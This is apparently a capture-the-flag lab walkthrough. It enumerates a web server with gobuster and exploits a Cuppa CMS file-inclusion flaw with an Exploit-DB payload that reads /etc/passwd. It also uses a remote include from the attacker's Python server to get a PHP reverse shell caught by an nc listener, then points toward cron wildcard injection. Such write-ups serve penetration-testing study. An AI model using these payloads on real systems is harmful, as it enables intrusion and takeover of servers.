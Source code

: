 We found a new directory `/45kra24zxs28v3yd` --> http://10.10.159.28/45kra24zxs28v3yd/

![[Pasted image 20231003111553.png]]

Let's use gobuster again in this webpage:

`gobuster dir -u http://10.10.159.28/45kra24zxs28v3yd/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

We found the `/administrator` page.

![[Pasted image 20231003111915.png]]

https://www.exploit-db.com/exploits/25971

```
#####################################################
EXPLOIT
#####################################################

http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?
http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

```


Create a PHP reverse shell using : https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Start a python server: `python3 -m http.server` --> NOTE: it is on port 8000
Start a listener: `nc -lvnp 1234`

Launch the exploit with:
http://10.10.159.28/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.201.128:8000/rev_shell.php?

We got a reverse shell:

![[Pasted image 20231003114609.png]]

Using `cat /etc/crontab` we search for task which are repeated.

Inside /home/milesdyson/backups we find a file backup.sh and see that every minutes a script is being executed, we can perfom a wildcard injection.


